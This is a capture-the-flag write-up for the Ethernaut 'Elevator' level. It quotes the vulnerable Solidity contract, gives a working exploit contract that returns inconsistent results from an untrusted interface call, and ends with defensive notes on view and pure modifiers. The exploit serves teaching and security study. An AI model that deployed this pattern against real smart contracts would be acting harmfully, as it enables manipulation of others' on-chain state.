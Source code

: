 # 11. Elevator
<sup>Difficulty 4/10</sup>

This elevator won't let you reach the top of your building. Right?

Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

## Solution

We need to get to the `lastFloor`. Let's review the code:

```solidity
contract Elevator {
  bool public top;    // bool variable to store if we are to the last floor
  uint public floor;

  function goTo(uint _floor) public {
  	// The sender is casted to a Building
    Building building = Building(msg.sender);

    // The first `isLastFloor` condition has to return False
    if (! building.isLastFloor(_floor)) {
      floor = _floor; 
      top = building.isLastFloor(floor);  // The second `isLastFloor` has to return True
    }
  }
}
```

We can create a contract that implements the `Building` interface. Using a counter we can return True or False based on a simple `mod` operation.

```solidity
contract Exploit is Building {
    address elevatorAddress = 0x916664889d54C166f9DcE171Aae90B72651da37A;
    Elevator elevator = Elevator(elevatorAddress);
    uint public callNo = 0;
    bool public res;
    function isLastFloor(uint) public override returns (bool) {
        callNo++;
        uint mod = callNo % 2;
        res = mod == 0;
        return mod == 0;
    }
    function exploit() public {
        elevator.goTo(1);
        elevator.goTo(2);  // Top reached
    }
}
```

## OZ Corner

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.